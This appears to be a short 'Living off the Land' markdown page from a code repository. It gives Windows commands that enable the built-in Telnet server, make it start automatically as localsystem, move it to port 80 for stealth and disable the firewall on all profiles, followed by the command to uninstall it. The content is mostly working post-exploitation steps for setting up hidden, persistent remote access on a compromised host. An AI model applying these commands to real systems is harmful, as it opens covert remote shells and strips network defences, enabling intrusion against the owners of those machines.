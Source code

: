 # Living off the Land

## 01 - Telnet Server

### 1.1 - Command Prompt

Until Windows 10, all Windows came with a **Telnet server** that you could install as administrator:

```
C:\> Dism /Online /Enable-Feature /FeatureName:TelnetServer

C:\> pkgmgr /iu:"TelnetServer" /quiet
```

Make it **start** when the system is started and **run** it now:

```
C:\> sc config TlntSVR start= auto obj= localsystem
```

Change telnet port (stealth) and disable firewall:

```
C:\> tlntadmn config port=80

C:\> netsh advfirewall set allprofiles state off
```

To uninstall telnet server.

```
C:\> Dism /Online /Disable-Feature /FeatureName:TelnetServer
```
